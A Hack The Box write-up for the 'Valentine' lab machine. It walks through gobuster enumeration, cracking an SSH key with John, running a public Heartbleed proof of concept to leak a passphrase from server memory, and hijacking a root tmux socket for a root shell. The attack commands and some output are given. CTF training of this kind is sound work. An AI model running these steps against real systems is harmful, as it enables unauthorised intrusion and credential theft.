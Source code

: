 ```yaml
---
layout: single
title: Valentine Writeup
date: '2020-05-01 15:51:21'
tags:
- hack-the-box
classes: wide
sidebar:
  - title: "Difficulty: Easy"
    image: /images/posts/2020/2020-05-01-valentine-writeup/valentine-6614854.png
    text: "https://app.hackthebox.eu/machines/127"
typora-copy-images-to: ../images/posts/2020/${filename}/
---
```



A good example of how dangerous a commonly exploited vulnerability is.…

## Enumeration

Autorecon turned up the following ports
```
22/tcp open ssh syn-ack ttl 63 OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
80/tcp open http syn-ack ttl 63 Apache httpd 2.2.22 ((Ubuntu))
443/tcp open ssl/http syn-ack ttl 63 Apache httpd 2.2.22 ((Ubuntu))
```

While I waited for the rest of the tests to complete I had a quick look at the website which just displayed an image. Given nothing seemed immediately obvious I started up `gobuster` to see if any interesting directories existed.
```bash
    bob@b0b:~/htb/valentine$ gobuster dir -u 10.10.10.79 -w /usr/share/dirb/wordlists/common.txt 
    ===============================================================
    Gobuster v3.0.1
    by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
    ===============================================================
    [+] Url: http://10.10.10.79
    [+] Threads: 10
    [+] Wordlist: /usr/share/dirb/wordlists/common.txt
    [+] Status codes: 200,204,301,302,307,401,403
    [+] User Agent: gobuster/3.0.1
    [+] Timeout: 10s
    ===============================================================
    2020/05/01 12:56:09 Starting gobuster
    ===============================================================
    /.hta (Status: 403)
    /.htaccess (Status: 403)
    /.htpasswd (Status: 403)
    /cgi-bin/ (Status: 403)
    /decode (Status: 200)
    /dev (Status: 301)
    /encode (Status: 200)
    /index (Status: 200)
    /index.php (Status: 200)
    /server-status (Status: 403)
    ===============================================================
    2020/05/01 12:56:53 Finished
    ===============================================================
```
From the above we can see `/decode`, `/encode` and `/dev` might be interesting.

I took a look at `/dev` and found _hype\_key_ and _notes.txt_. _notes.txt_ had the following content

    To do:
    
    1) Coffee.
    2) Research.
    3) Fix decoder/encoder before going live.
    4) Make sure encoding/decoding is only done client-side.
    5) Don't use the decoder/encoder until any of this is done.
    6) Find a better way to take notes.

Which hints at the encode/decode paths we found earlier. hype\_key looked interesting and downloading it revealed a hex-encoded file. I converted this as follows:

    cat hype_key |xxd -r -p
    -----BEGIN RSA PRIVATE KEY-----
    Proc-Type: 4,ENCRYPTED
    DEK-Info: AES-128-CBC,AEB88C140F69BF2074788DE24AE48D46
    <snip>

Okay, an ssh key. The `Proc-Type: 4,ENCRYPTED` means that a passphrase will be needed though, so there is more work to do.

At this point I quickly ran John over the key to see if I could get the passphrase

```bash
/usr/share/john/ssh2john.py hype.rsa > hype.john
john --wordlist=/usr/share/wordlists/rockyou.txt --format=SSH hype.john 
```

Usually CTF challenges uses a passphrase from the rockyou list as the point isn't to bore you waiting for a hash to be bruteforced. This didn't turn up anything so I looked at other avenues.

The full nmap output had the following interesting output

    | ssl-heartbleed: 
    | VULNERABLE:
    | The Heartbleed Bug is a serious vulnerability in the popular OpenSSL cryptographic software library. It allows for stealing information intended to be protected by SSL/TLS encryption.
    | State: VULNERABLE

Which I guess makes sense given the name of the box!

## Initial exploitation

It's pretty easy to find a [Proof of Concept](https://github.com/sensepost/heartbleed-poc) for this as it's pretty old. Metasploit also has a module for it. We can grab this and run it like so

```bash
python heartbleed-poc.py -n 200 -q 10.10.10.79
```

The `-n 200` is the number of heartbeats to send, the more you send the more memory you get back. The `-q` is not tell it not to write the dump to stdout. I did originally try this with the default number of heartbeats (1) but didn't get anything useful.

After letting this run you can then do a `strings dump.bin |less` to look for goodies.

Something that is apparent is:

    0.1/decode.php
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 42
    $text=aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==)

If we take `aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==` and base64 decode it

```bash
echo aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg== |base64 -d
heartbleedbelievethehype
```

We get something that looks like a passphrase. Trying to use this with ssh gets us a session as the hype user and we can quickly grab user.txt from the Desktop directory.

## Escalation

As usual I start with a quick nose around the home directory of my current user account and immediately notice that .bash\_history has something in it. This is usually redirected to /dev/null in CTFs.

This included

```bash
tmux -L dev_sess 
tmux a -t dev_sess 
tmux --help
tmux -S /.devs/dev_sess
```

tmux is a terminal multiplexor, a bit like screen, so you can have multiple sessions running in the background. Looking at /.devs/ we see

```bash
srw-rw---- 1 root hype 0 May 1 03:10 dev_sess
```

This is a socket file for tmux, and the _-S_ option being used earlier was telling tmux to use this instead of the defaults it would normally use. The socket is owned by root and set _suid_ so we might get a root session if we connect.

Running `tmux -S /.devs/dev_sess` does instead give us a root shell, and we can grab `/root/root.txt`

